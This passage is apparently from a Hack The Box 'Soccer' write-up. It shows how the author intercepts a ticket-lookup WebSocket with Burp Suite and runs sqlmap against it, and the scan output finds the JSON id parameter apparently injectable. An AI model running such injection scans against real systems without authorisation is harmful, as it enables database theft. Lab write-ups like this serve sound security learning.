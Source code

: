 After registration, the website refreshed to a login page. Let's try to logon with our credentials what we just have entered.


![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308180246.png){: width="700" height="400" }

After logon to the website we can see a ticket id. Might be there something like a SQLi vulnerability on this website?

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308180421.png){: width="700" height="400" }

There is an input field present. Let's try to enter a ticket number with one number higher.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308180541.png){: width="700" height="400" }

The ticket does not exist. We should start Burpsuit and intercept the request so we can use it with SQLmap. First we should reload the page so we can see all requests to the server.
![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308180917.png){: width="700" height="400" }
It looks like the application is using port 9091 what we have found earlier. It looked at that specific moment that there was something running like mail. But this does explain.

Now if we try to check the Ticket ID, there is nothing shown in the interceptor. Let's check further in Burpsuit history.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308181523.png){: width="700" height="400" }

The communication has been switched to websockets, so we should check the other tab `WebSockets History`.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308182355.png){: width="700" height="400" }
There are multple requests and responses in this tab. Let's check some details about the requests .

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308182522.png){: width="700" height="400" }

It looks like there is a json request sent to the server. We might be able to find a SQLi vulnerability with sqlmap. Since we are talking to a a websocket we should tell sqlmap this explicitly. Let's find out if we can find a SQLi vulnerability with sqlmap.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "94530"}' --dbms mysql --batch --level 5 --risk 3
        ___
       __H__                                                                             ___ ___[,]_____ ___ ___  {1.7.8#stable}                    
|_ -| . ["]     | .'| . |                                   
|___|_  [,]_|_|_|__,|  _|                                   
      |_|V...       |_|   https://sqlmap.org                   

[*] starting @ 18:27:07 /2024-03-08/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[18:27:07] [INFO] testing connection to the target URL
[18:27:11] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:27:11] [INFO] testing if the target URL content is stable
[18:27:11] [INFO] target URL content is stable
[18:27:11] [INFO] testing if (custom) POST parameter 'JSON id' is dynamic
[18:27:11] [INFO] (custom) POST parameter 'JSON id' appears to be dynamic
[18:27:12] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON id' might not be injectable
[18:27:12] [INFO] testing for SQL injection on (custom) POST parameter 'JSON id'
[18:27:12] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:27:16] [INFO] (custom) POST parameter 'JSON id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[18:27:16] [INFO] testing 'Generic inline queries'
```